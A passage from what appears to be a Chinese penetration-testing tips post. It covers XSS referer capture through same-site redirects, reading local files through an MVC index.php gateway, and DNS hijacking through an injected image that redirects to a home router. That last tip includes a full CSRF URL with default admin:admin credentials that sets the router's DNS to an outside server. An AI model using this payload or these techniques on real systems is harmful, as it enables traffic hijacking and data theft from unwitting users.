 2.注意跳转页面,有时候在本站下无法完成XSS :\<iframe\> \<img\> 来Get 到referer 的信息,使用同站跳转可以绕过这个限制

3.MVC 架构开发WEB 应用时有时候会利用一个index.php 去做类似于网关转发访问数据的过程,图如下:



 对于这种架构可以尝试下找出系统的文件位置(因为有一部分MVC 架构是CMS ,影响范围很大)所以用开源的CMS 去找文件分部再用这种传递到index.php 去访问本地资源的模式来获取敏感信息

<http://www.wooyun.org/bugs/wooyun-2010-077249>

4.如果可以实现XSS 或者跨站插入图片,可以尝试利用下DNS 劫持攻击,例子如下:



![](C:\Users\Administrator\Desktop\code_file\blog\2016\pic_temp2\1.png)



 然后浏览器会根据这张图片去进行HTTP 访问,然后我们把这个图片去重定向浏览器(302),让浏览器跳到本地的路由器执行CSRF ([http://admin:admin](http://admin:admin/)@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=&dnsserver=54.248.102.5&dnsserver2=8.8.8.8&Save=%25B1%25A3+%25B4%25E6)

<http://www.wooyun.org/bugs/wooyun-2010-048499>



